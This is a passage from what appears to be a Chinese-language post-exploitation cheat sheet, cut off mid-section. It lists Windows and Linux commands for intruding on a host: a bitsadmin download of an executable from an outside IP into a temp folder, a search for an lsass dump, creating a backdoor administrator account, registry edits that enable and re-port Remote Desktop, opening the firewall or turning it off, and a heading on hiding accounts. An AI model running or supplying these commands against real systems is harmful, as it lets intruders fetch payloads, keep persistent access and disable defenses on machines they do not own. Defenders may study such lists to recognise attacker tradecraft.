 > ### 其他常用命令
>
> > ping    icmp 连通性
> >
> > nslookup www.baidu.com vps-ip dns 连通性
> >
> > dig @vps-ip www.baidu.com
> >
> > curl vps:8080  http 连通性
> >
> > tracert
> >
> > bitsadmin /transfer n http://ip/xx.exe C:\windows\temp\x.exe一种上传文件 >= 2008
> >
> > fuser -nv tcp 80 查看端口 pid
> >
> > rdesktop -u username ip linux 连接 win 远程桌面 (有可能不成功)
> >
> > where file win 查找文件是否存在 
> >
> > 找路径，Linux 下使用命令 find -name *.jsp 来查找，Windows 下，使用 for /r c:\windows\temp\ %i in (file lsss.dmp) do @echo %i
> >
> > netstat -apn | grep 8888  kill -9 PID  查看端口并 kill
>
> ### 远程登录内网主机
>
> 判断是内网，还是外网，内网转发到 vps
>
> > netstat -ano  没有开启 3389 端口,复查下
> >
> > tasklist /svc,查 svchost.exe 对应的 TermService 的 pid,看 netstat 相等的 pid 即 3389 端口.
>
> ### 在主机上添加账号
>
> > net user admin1 admin1 /add & net localgroup administrators admin1 /add
>
> 如不允许远程连接，修改注册表 
>
> > REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
> >
> > REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 0x00000d3d /f
>
> 如果系统未配置过远程桌面服务，第一次开启时还需要添加防火墙规则，允许 3389 端口，命令如下:
>
> > netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
>
> 关闭防火墙
>
> > netsh firewall set opmode mode=disable
>
> 3389user 无法添加:
>
> > http://www.91ri.org/5866.html
>
> ****隐藏 win 账户****
>
> 开启 sys 权限 cmd:
>